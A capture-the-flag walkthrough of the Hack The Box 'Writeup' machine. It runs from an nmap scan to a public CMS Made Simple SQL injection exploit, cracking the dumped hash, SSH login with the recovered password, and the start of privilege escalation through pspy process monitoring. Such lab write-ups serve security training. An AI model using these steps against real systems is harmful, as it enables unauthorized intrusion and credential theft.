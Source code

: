<center><h1>Writeup</h1></center>
<br>
<center><h3>Summary</h3></center>
<br>

<br><br>
First start with an Nmap scan
```
# Nmap 7.70 scan initiated Sat Jun  8 15:42:31 2019 as: nmap -sV -sC -T4 10.10.10.138
Nmap scan report for 10.10.10.138
Host is up (0.17s latency).
Not shown: 998 filtered ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
| ssh-hostkey:
|   2048 dd:53:10:70:0b:d0:47:0a:e2:7e:4a:b6:42:98:23:c7 (RSA)
|   256 37:2e:14:68:ae:b9:c2:34:2b:6e:d9:92:bc:bf:bd:28 (ECDSA)
|_  256 93:ea:a8:40:42:c1:a8:33:85:b3:56:00:62:1c:a0:ab (ED25519)
80/tcp open  http    Apache httpd 2.4.25 ((Debian))
| http-robots.txt: 1 disallowed entry
|_/writeup/
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Nothing here yet.
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Jun  8 15:43:20 2019 -- 1 IP address (1 host up) scanned in 49.10 seconds
```
Only a couple ports open. I can already see that port 80 has a directory <b>/writeup</b>. Navigating to the page we see a very basic website that does not give us much to work from.

<center><img src="/htb/writeup/web.png"></center>
<br>
If you take a look at the web page source code then you should see that the website is running <b> CMS Made Simple</b>.

<center><img src="/htb/writeup/cms.png"></center>
<br>
Using <b>Searchsploit</b> we can find a vulnerability that works for us. I chose this one because it was the most recent one.
```
CMS Made Simple < 2.2.10 - SQL Injection                                                                              | exploits/php/webapps/46635.py
```
I download the exploit from the exploit database *[here](https://www.exploit-db.com/exploits/46635)*. Then I execute the script and wait until it finishes. Eventually we see some credentials.
```
# python CSM_SQL_Injection.py -u http://10.10.10.138/writeup
[+] Salt for password found: 5a599ef579066807
[+] Username found: jkr
[+] Email found: jkr@writeup.htb
[+] Password found: 62def4866937f08cc13bab43bb14e6f7
```
So now we have a password hash and a salt. We can crack this by using and online password cracker. I used *[this](https://www.md5online.org/md5-decrypt.html)* one. After removing the salt, we get a password of <b>raykayjay9</b> and user of <b>jkr</b>.

<center><img src="/htb/writeup/decrypt.png"></center>
</br>
Using those credentials we are able to ssh in as the user <b>jkr</b>
```
# ssh jkr@10.10.10.138
The authenticity of host '10.10.10.138 (10.10.10.138)' can't be established.
ECDSA key fingerprint is SHA256:TEw8ogmentaVUz08dLoHLKmD7USL1uIqidsdoX77oy0.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.138' (ECDSA) to the list of known hosts.
jkr@10.10.10.138's password:
Linux writeup 4.9.0-8-amd64 x86_64 GNU/Linux

The programs included with the Devuan GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Devuan GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
jkr@writeup:~$
```
From here we can read the <b>user.txt</b> file.
```
jkr@writeup:~$ cat user.txt
d4e493fd4068afc***************
```
Now for the priv esc. First thing I did was some manual enumeration but I didnt find anything. Next I ran an Enum script but that also didnt reveal much. Lastly, I upload <b>pspy64</b> to the box to monitor the running processes. You can upload this through <b>scp</b> or anything similar. Running the program doesn't reveal much at first.
```
2019/09/25 22:26:52 CMD: UID=0    PID=2040   | /sbin/getty 38400 tty1
2019/09/25 22:26:52 CMD: UID=0    PID=20     |
2019/09/25 22:26:52 CMD: UID=0    PID=2      |
2019/09/25 22:26:52 CMD: UID=0    PID=1971   | /usr/sbin/sshd
2019/09/25 22:26:52 CMD: UID=0    PID=1920   | logger -t mysqld -p daemon error
2019/09/25 22:26:52 CMD: UID=103  PID=1919   | /usr/sbin/mysqld --basedir=/usr --datadir=/var/lib/mysql --plugin-dir=/usr/lib/x86_64-linux-gnu/mariadb18/plugin --user=mysql --skip-log-error --pid-file=/var/run/mysqld/mysqld.pid --socket=/var/run/mysqld/mysqld.sock --port=3306
2019/09/25 22:26:52 CMD: UID=0    PID=19     |
2019/09/25 22:26:52 CMD: UID=0    PID=18     |
2019/09/25 22:26:52 CMD: UID=0    PID=1798   | /usr/bin/python3 /usr/bin/fail2ban-server -s /var/run/fail2ban/fail2ban.sock -p /var/run/fail2ban/fail2ban.pid -b
2019/09/25 22:26:52 CMD: UID=0    PID=1749   | /bin/bash /usr/bin/mysqld_safe
2019/09/25 22:26:52 CMD: UID=0    PID=17     |
2019/09/25 22:26:52 CMD: UID=0    PID=1679   | /usr/sbin/elogind -D
2019/09/25 22:26:52 CMD: UID=101  PID=1631   | /usr/bin/dbus-daemon --system
2019/09/25 22:26:52 CMD: UID=0    PID=1628   | /usr/sbin/cron
2019/09/25 22:26:52 CMD: UID=0    PID=162    |
2019/09/25 22:26:52 CMD: UID=0    PID=161    |
2019/09/25 22:26:52 CMD: UID=0    PID=16     |
2019/09/25 22:26:52 CMD: UID=33   PID=1571   | /usr/sbin/apache2 -k start
2019/09/25 22:26:52 CMD: UID=33   PID=1570   | /usr/sbin/apache2 -k start
2019/09/25 22:26:52 CMD: UID=33   PID=1569   | /usr/sbin/apache2 -k start
2019/09/25 22:26:52 CMD: UID=33   PID=1568   | /usr/sbin/apache2 -k start
2019/09/25 22:26:52 CMD: UID=33   PID=1567   | /usr/sbin/apache2 -k start
2019/09/25 22:26:52 CMD: UID=0    PID=1564   | /usr/sbin/apache2 -k start
2019/09/25 22:26:52 CMD: UID=0    PID=155    |
2019/09/25 22:26:52 CMD: UID=0    PID=15     |
2019/09/25 22:26:52 CMD: UID=0    PID=1480   | /usr/lib/vmware-vgauth/VGAuthService -s
2019/09/25 22:26:52 CMD: UID=0    PID=1445   | /usr/sbin/vmtoolsd
2019/09/25 22:26:52 CMD: UID=0    PID=14     |
2019/09/25 22:26:52 CMD: UID=0    PID=1305   | /usr/sbin/rsyslogd
2019/09/25 22:26:52 CMD: UID=0    PID=130    |
2019/09/25 22:26:52 CMD: UID=0    PID=13     |
2019/09/25 22:26:52 CMD: UID=0    PID=12     |
2019/09/25 22:26:52 CMD: UID=0    PID=113    |
2019/09/25 22:26:52 CMD: UID=0    PID=112    |
2019/09/25 22:26:52 CMD: UID=0    PID=111    |
2019/09/25 22:26:52 CMD: UID=0    PID=110    |
2019/09/25 22:26:52 CMD: UID=0    PID=11     |
2019/09/25 22:26:52 CMD: UID=0    PID=10     |
2019/09/25 22:26:52 CMD: UID=0    PID=1      | init [2]   
2019/09/25 22:27:01 CMD: UID=0    PID=3155   | /usr/sbin/CRON
2019/09/25 22:27:01 CMD: UID=0    PID=3156   | /usr/sbin/CRON
2019/09/25 22:27:01 CMD: UID=0    PID=3157   | /bin/sh -c /root/bin/cleanup.pl >/dev/null 2>&1
2019/09/25 22:27:02 CMD: UID=0    PID=3158   |
2019/09/25 22:28:01 CMD: UID=0    PID=3159   | /usr/sbin/CRON
2019/09/25 22:28:01 CMD: UID=0    PID=3160   | /usr/sbin/CRON
2019/09/25 22:28:01 CMD: UID=0    PID=3161   | /bin/sh -c /root/bin/cleanup.pl >/dev/null 2>&1
```
This stumped me for a while since I was unable to find anything during the enumeration and there was very few running processes. The only idea I had left was to open another terminal and ssh in again to see what would happen if I generated my own traffic to the box. Luckily after doing that I get what I was looking for.
```
2019/09/25 22:31:59 CMD: UID=0    PID=3174   | sh -c /usr/bin/env -i PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin run-parts --lsbsysinit /etc/update-motd.d > /run/motd.dynamic.new
```
